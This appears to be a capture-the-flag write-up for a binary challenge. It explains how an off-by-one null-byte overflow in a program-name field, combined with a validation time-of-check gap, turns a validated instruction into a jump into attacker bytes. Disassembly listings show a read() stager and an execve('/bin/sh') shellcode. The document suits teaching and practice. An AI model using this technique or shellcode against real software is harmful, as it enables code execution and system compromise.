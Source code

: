 # Bug
Single null-byte overflow (off-by-one bug) in second input (program name), combined with a ToCToU:
```
    validate_program(p->code, bytes_read);
    printf("\nNamnge ditt program: ");
    if ( (bytes_read = read(STDIN_FILENO, p->name, NAME_MAX_LEN)) == -1){
        DIE("read");
    }

    p->name[bytes_read] = 0; // index 16 is the first byte in p->code
                             // happens after program is validated
```

# Solution
* By placing well chosen `mov rax, IMMEDIATE` (or `mov rbx`), hijack the control flow by overwriting the first byte in this instruction with NULL.
* In the example solution below we change `mov rax,0xffffffffe9eb00ff` into `add bh,al ; sar bh,0x0 ; jmp -0x15`.
* This allows us to execute the bytes we put in `p->name` (name of our "program") as code.
* The code we placed in `p->name` is a read() stager in order to let us input more shellcode.

## Some snapshots of the exploit method
### At validation 
After program has been input, before name has been input
```
// p->name,         0x7f8354c34000:	add    BYTE PTR [rax],al
// yet to be        0x7f8354c34002:	add    BYTE PTR [rax],al
// written.         0x7f8354c34004:	add    BYTE PTR [rax],al
                    0x7f8354c34006:	add    BYTE PTR [rax],al
                    0x7f8354c34008:	add    BYTE PTR [rax],al
                    0x7f8354c3400a:	add    BYTE PTR [rax],al
                    0x7f8354c3400c:	add    BYTE PTR [rax],al
                    0x7f8354c3400e:	add    BYTE PTR [rax],al
// p->code that  => 0x7f8354c34010:	mov    rax,0xffffffffe9eb00ff
// passes           0x7f8354c34017:	ret 
// validation       0x7f8354c34018:	add    BYTE PTR [rax],al
                    0x7f8354c3401a:	add    BYTE PTR [rax],al
                    0x7f8354c3401c:	add    BYTE PTR [rax],al
                    0x7f8354c3401e:	add    BYTE PTR [rax],al
                    0x7f8354c34020:	add    BYTE PTR [rax],al
```
                   
### At user program runtime, after name has been input
```
// p->name          0x7f8354c34000:	mov    rsi,rdi <------------+
                    0x7f8354c34003:	mov    edx,0x32             |
                    0x7f8354c34008:	xor    rdi,rdi              |
                    0x7f8354c3400b:	xor    rax,rax              |
                    0x7f8354c3400e:	syscall // SYS_read stager  |
// p->code, null => 0x7f8354c34010:	add    bh,al                |
// byte overwrite   0x7f8354c34012:	sar    bh,0x0               |
// changed the      0x7f8354c34015:	jmp    0x7f8354c34000 ->----+
// already          0x7f8354c34017:	ret    
// validated        0x7f8354c34018:	add    BYTE PTR [rax],al
// instruction      0x7f8354c3401a:	add    BYTE PTR [rax],al
```

### With our read-stager called, we input a simple "/bin/sh" execve shellcode
```
                    0x7f8354c34000:	mov    rsi,rdi
                    0x7f8354c34003:	mov    edx,0x32
                    0x7f8354c34008:	xor    rdi,rdi
                    0x7f8354c3400b:	xor    rax,rax
                    0x7f8354c3400e:	syscall     // SYS_read
                 => 0x7f8354c34010:	push   0x68
                    0x7f8354c34012:	movabs rax,0x732f2f2f6e69622f
                    0x7f8354c3401c:	push   rax
                    0x7f8354c3401d:	mov    rdi,rsp
                    0x7f8354c34020:	push   0x1016972
                    0x7f8354c34025:	xor    DWORD PTR [rsp],0x1010101
                    0x7f8354c3402c:	xor    esi,esi
                    0x7f8354c3402e:	push   rsi
                    0x7f8354c3402f:	push   0x8
                    0x7f8354c34031:	pop    rsi
                    0x7f8354c34032:	add    rsi,rsp
                    0x7f8354c34035:	push   rsi
                    0x7f8354c34036:	mov    rsi,rsp
                    0x7f8354c34039:	xor    edx,edx
                    0x7f8354c3403b:	push   0x3b
                    0x7f8354c3403d:	pop    rax
                    0x7f8354c3403e:	syscall     // SYS_execve
```
